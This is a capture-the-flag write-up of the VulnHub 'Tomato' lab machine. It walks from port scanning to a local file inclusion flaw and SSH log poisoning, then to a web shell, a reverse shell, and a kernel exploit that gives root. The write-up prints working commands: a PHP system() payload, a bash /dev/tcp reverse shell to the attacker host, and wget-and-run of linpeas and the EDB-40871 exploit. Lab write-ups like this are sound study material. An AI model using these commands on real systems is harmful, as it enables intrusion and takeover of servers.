



# Tomato — VulnHub

## 1. Identification

| Field            | Value                                                |
|------------------|------------------------------------------------------|
| Machine name     | Tomato: 1                                            |
| Platform         | VulnHub                                              |
| Author           | SunCSR Team                                          |
| Difficulty       | Easy → Medium                                        |
| Target IP (lab)  | 10.0.0.28                                            |
| OS               | Ubuntu Linux (kernel 4.4.0-21-generic)               |
| Goal             | Capture `proof.txt` in `/root`                       |

Chain in one line: recon → `/antibot_image/antibots/info.php` LFI → log poisoning via SSH → `www-data` reverse shell → kernel exploit (AF_PACKET, CVE-2016-8655 / EDB-40871) → root.

## 2. Initial reconnaissance

```bash
nmap -sV -p- 10.0.0.28
```

Preserved result:

```
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open ftp      vsftpd 3.0.3
80/tcp   open http     Apache httpd 2.4.18 ((Ubuntu))
2211/tcp open ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
8888/tcp open http     nginx 1.10.3 (Ubuntu)
OS details: Linux 3.11 - 4.9
```

> Important detail: SSH on a non-standard port (2211) and a second HTTP on 8888 (likely webmin/panel).

## 3. Enumeration

### 3.1 Landing page — hint in `<title>`

```html
<html>
<head>
  <title>Tomato</title>
  <meta name="description" content="We Are Still Alive!">
  <meta name="keywords" content="Potato">
  ...
</head>
<center></center>
</html>
```

Decorative page pointing to `img.jpeg`.


### 3.2 Directory enumeration

```bash
ffuf -u "http://10.0.0.28/FUZZ" \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

Preserved (relevant) output:

```
.htpasswd               [Status: 403, Size: 274]
antibot_image           [Status: 301, Size: 314]
.hta                    [Status: 403]
.htaccess               [Status: 403]
index.html              [Status: 200, Size: 652]
server-status           [Status: 403]
```

### 3.3 /antibot_image/ — plugin hint

`http://10.0.0.28/antibot_image/` reveals the `readme.txt` of the WordPress Anti Bots plugin (sminozzi / 1.05).






> "Anti Bots plugin will protect also the Login Form from Brute Force Attacks ... Easy to use!"

### 3.4 /antibot_image/antibots/info.php — LFI

`info.php` accepts an `image=` parameter and includes its content. LFI vector:

```
http://10.0.0.28/antibot_image/antibots/info.php?image=/etc/passwd
```

Combined with `auth.log`:

```
http://10.0.0.28/antibot_image/antibots/info.php?image=../../../../../../var/log/auth.log
```




## 4. Exploitation

### 4.1 Log poisoning via SSH banner

Force an SSH attempt with a PHP payload in the username → SSH writes the attempt to `auth.log`, which `info.php` later interprets:

```bash
python3 -c "import socket,time; s=socket.socket(); s.connect(('10.0.0.28',2211)); time.sleep(1); s.send(b'<?php system(\$_GET[cmd]);?>\n'); time.sleep(3); s.close(); print('done')"
# done
```

Execution confirmation:

```bash
curl -s "http://10.0.0.28/antibot_image/antibots/info.php?image=../../../../../../var/log/auth.log&cmd=id" 2>&1 | grep "www-data"

# <tr><td class="e">User/Group </td><td class="v">www-data(33)/33 </td></tr>
# <tr><td class="e">APACHE_RUN_USER </td><td class="v">www-data </td></tr>
# May 9 05:25:28 ubuntu sshd[39423]: Bad protocol version identification
# 'uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4.2 Reverse shell

```bash
# Kali
nc -lvnp 4444

# Trigger
curl -s "http://10.0.0.28/antibot_image/antibots/info.php?image=../../../../../../var/log/auth.log&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.0.1.8/4444+0>%261'"
```

Catches a `www-data@ubuntu` shell.

## 5. Post-exploitation

Serving linpeas for enumeration:

```bash
# Kali
python3 -m http.server 8080 --directory /usr/share/peass/linpeas/

# Target
cd /tmp && wget http://10.0.1.8:8080/linpeas.sh && chmod +x linpeas.sh
./linpeas.sh 2>&1 | tee /tmp/linpeas_out.txt
```

Linpeas returned a long list of candidate CVEs (kernel `4.4.0-21-generic` is highly vulnerable):

```
CVE-2016-0728 (keyring)        — unreliable exploit
CVE-2016-2384 (usb-midi)       — requires physical USB
CVE-2016-4557 (double-fdput)   — requires CONFIG_BPF_SYSCALL
CVE-2016-5195 (dirtycow)       — viable (rank 4)
CVE-2016-8655 (af_packet)      — viable (rank 1), Ubuntu 16.04 kernel 4.4.0-21-generic
CVE-2017-7308 (af_packet 2)
CVE-2017-16995 (eBPF verifier)
CVE-2017-1000112 (NETIF_F_UFO)
CVE-2018-14665 (exploit_x)
... 19 kernel vulnerabilities detected in total
```

Static DirtyCow was downloaded:

```bash
www-data@ubuntu:/tmp$ wget http://10.0.1.8:8080/dirty_static && chmod +x dirty_static
```

## 6. Privilege escalation

Working vector: **EDB-40871 (CVE-2016-8655 — chocobo_root AF_PACKET race)**.

```bash
www-data@ubuntu:/tmp$ wget http://10.0.1.8:8080/40871
www-data@ubuntu:/tmp$ chmod +x 40871
www-data@ubuntu:/tmp$ ./40871
```

Preserved output (excerpt):

```
retrying stage..
new exploit attempt starting, jumping to 0xffffffff81286310, arg=0xffffffffff600850
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 1077333953, last val = 2)
current packet version = 0
pbd->hdr.bh1.offset_to_first_pkt = 48
*=*=*=* TPACKET_V1 && offset_to_first_pkt != 0, race won *=*=*=*
please wait up to a few minutes for timer to be executed. if you ctrl-c now the
kernel will hang. so don't do that.
closing socket and verifying.......
sysctl added!
kernel version: 4.4.0-21-generic #37
proc_dostring = 0xffffffff81087cf0
modprobe_path = 0xffffffff81e48e80
register_sysctl_table = 0xffffffff81286310
set_memory_rw = 0xffffffff8106f370
making vsyscall page writable..

stage 1 completed
registering new sysctl..
...
stage 2 completed
```

Result:

```
$ id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Shell upgrade:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@ubuntu:/tmp#
```

## 7. Flags

```bash
root@ubuntu:/tmp# cd /root
root@ubuntu:/root# ls
proof.txt
root@ubuntu:/root# cat proof.txt
Sun_CSR_TEAM_TOMATO_JS_0232xx23
```

| Flag             | Path              | Content                          |
|------------------|-------------------|----------------------------------|
| proof.txt (root) | `/root/proof.txt` | `Sun_CSR_TEAM_TOMATO_JS_0232xx23` |

## 8. Attack summary

1. Nmap → 21/80/2211/8888 (SSH on a high port).
2. `ffuf` on `/` reveals `/antibot_image/`.
3. WordPress Anti Bots plugin (sminozzi) — `readme.txt` exposed.
4. `info.php?image=...` → LFI confirmed.
5. Read `/etc/passwd` to enumerate users.
6. Log poisoning via SSH (port 2211): banner with `<?php system($_GET[cmd]); ?>`.
7. Include `auth.log` → PHP execution → RCE as `www-data`.
8. Reverse shell to `10.0.1.8:4444`.
9. `linpeas` enumerates 19 candidate kernel CVEs.
10. EDB-40871 (AF_PACKET race) → root.
11. Read `/root/proof.txt`.

## 9. Technical lessons

- SSH on a non-standard port (2211) — always run a full-port scan.
- LFI + log poisoning is still a real path in older apps (Apache + PHP).
- Anti Bots plugin (sminozzi) with `info.php` exposed via `image=` is a known vulnerability — don't trust "anti-X plugins" as a defense.
- Kernel `4.4.0-21-generic` (Ubuntu 16.04) is a minefield: `af_packet`, eBPF, DirtyCow, etc.
- Linpeas exploit ranking helps pick the most likely to succeed instead of trying everything.
